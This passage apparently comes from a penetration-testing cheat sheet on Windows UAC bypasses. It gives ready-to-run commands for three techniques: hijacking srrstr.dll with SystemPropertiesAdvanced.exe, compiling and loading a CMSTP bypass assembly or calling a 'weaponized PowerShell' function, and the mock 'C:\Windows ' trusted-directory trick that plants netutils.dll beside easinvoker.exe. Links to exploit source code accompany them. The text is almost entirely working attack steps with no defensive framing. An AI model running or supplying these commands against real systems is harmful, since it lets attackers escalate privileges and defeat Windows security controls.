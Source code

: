 Upload `srrstr.dll` to `C:\Users\%USERNAME%\AppData\Local\Microsoft\WindowsApps\` and check it:

```
PS > rundll32.exe srrstr.dll,xyz
```

Exec and get a shell ("requires an interactive window station"):

```
PS > cmd /c C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```




## cmstp.exe

* [0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)
* [https://gist.github.com/snovvcrash/56d51e535c3afd89a1e9e68c284553a6](https://gist.github.com/snovvcrash/56d51e535c3afd89a1e9e68c284553a6)

Compile from source, load and execute:

```
PS > Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "CMSTP-UAC-Bypass.dll"
PS > [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))
PS > [CMSTPBypass]::Execute("C:\Windows\System32\cmd.exe")
```

Load from a weaponized PowerShell and execute:

```
PS > Bypass-UAC -C "C:\Windows\System32\cmd.exe"
```




## easinvoker.exe

- [https://github.com/sailay1996/UAC_Bypass_In_The_Wild/tree/master/FileSys_UAC_Bypass/uac_easinvoker](https://github.com/sailay1996/UAC_Bypass_In_The_Wild/tree/master/FileSys_UAC_Bypass/uac_easinvoker)
- [https://github.com/g3tsyst3m/elevationstation/blob/main/elevationstation/elevationstation.cpp](https://github.com/g3tsyst3m/elevationstation/blob/ba521d9901c98458526c1790b2b0ed0b370796bc/elevationstation/elevationstation.cpp#L895-L903)

```
mkdir "\\?\C:\Windows "
mkdir "\\?\C:\Windows \System32"
copy c:\windows\system32\easinvoker.exe "C:\Windows \System32"
copy netutils.dll "C:\Windows \System32"
"C:\Windows \System32\easinvoker.exe"
del /q "C:\Windows \System32\*"
rmdir "C:\Windows \System32"
rmdir "C:\Windows "
```
